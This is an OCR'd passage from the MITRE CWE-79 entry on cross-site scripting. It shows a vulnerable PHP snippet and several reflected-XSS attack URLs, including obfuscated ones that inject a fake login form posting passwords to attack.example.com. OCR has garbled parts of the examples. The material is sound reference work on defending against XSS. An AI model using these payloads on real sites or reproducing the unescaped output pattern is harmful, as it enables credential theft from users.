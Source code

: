 someone enter a URL that causes malicious code to run on their own computer? The real danger is that an attacker will create the
malicious URL, then use e-mail or social engineering tricks to lure victims into visiting a link to the URL. When victims click the link,
they unwittingly reflect the malicious content through the vulnerable web application back to their own computers.
More realistically , the attacker can embed a fake login box on the page, tricking the user into sending the user's password to the
attacker:
If a user clicks on this link then W elcome.php will generate the following HTML and send it to the user's browser:
The trustworthy domain of the URL may falsely assure the user that it is OK to follow the link. However , an astute user may notice the
suspicious text appended to the URL. An attacker may further obfuscate the URL (the following example links are broken into multiple
lines for readability):
The same attack string could also be obfuscated as:(bad code) Example Language: PHP 
$username = $\_GET['username'];
echo ' Welcome, ' . $username . '';
(attack code) 
http://trustedSite.example.com/welcome.php?username=alert("You've been attacked!");
(attack code) 
http://trustedSite.example.com/welcome.php?username=Please Login:Username:   
Password:
  

(result) 
 Welcome,  Please Login:

Username:   

Password:   




(attack code) 
trustedSite.example.com/welcome.php?username=%3Cdiv+id%3D%22
stealPassword%22%3EPlease+Login%3A%3Cform+name%3D%22input
%22+action%3D%22http%3A%2F%2Fattack.example.com%2FstealPassword.php
%22+method%3D%22post%22%3EUsername%3A+%3Cinput+type%3D%22text
%22+name%3D%22username%22+%2F%3E%3Cbr%2F%3EPassword%3A
+%3Cinput+type%3D%22password%22+name%3D%22password%22
+%2F%3E%3Cinput+type%3D%22submit%22+value%3D%22Login%22
+%2F%3E%3C%2Fform%3E%3C%2Fdiv%3E%0D%0A
(attack code) 
trustedSite.example.com/welcome.php?username=
document.write('\u003C\u0064\u0069\u0076\u0020\u0069\u0064\u003D\u0022\u0073
\u0074\u0065\u0061\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064
\u0022\u003E\u0050\u006C\u0065\u0061\u0073\u0065\u0020\u004C\u006F\u0067
\u0069\u006E\u003A\u003C\u0066\u006F\u0072\u006D\u0020\u006E\u0061\u006D
\u0065\u003D\u0022\u0069\u006E\u0070\u0075\u0074\u0022\u0020\u0061\u0063
\u0074\u0069\u006F\u006E\u003D\u0022\u0068\u0074\u0074\u0070\u003A\u002F
\u002F\u0061\u0074\u0074\u0061\u0063\u006B\u002E\u0065\u0078\u0061\u006D
\0070\006C\0065\002E\0063\006F\006D\002F\0073\0074\0065\00613/7/24, 3:10 PM CWE - CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') (4.14)
https://cwe.mitre.org/data/deﬁnitions/79.html 4/10Both of these attack links will result in the fake login box appearing on the page, and users are more likely to ignore indecipherable
text at the end of URLs.
Example 2
The following code displays a Reflected XSS (T ype 1) scenario.
The following JSP code segment reads an employee ID, eid, from an HTTP request and displays it to the user .
The following ASP.NET code segment reads an employee ID number from an HTTP request and displays it to the user .
The code in this example operates correctly if the Employee ID variable contains only standard alphanumeric text. If it has a value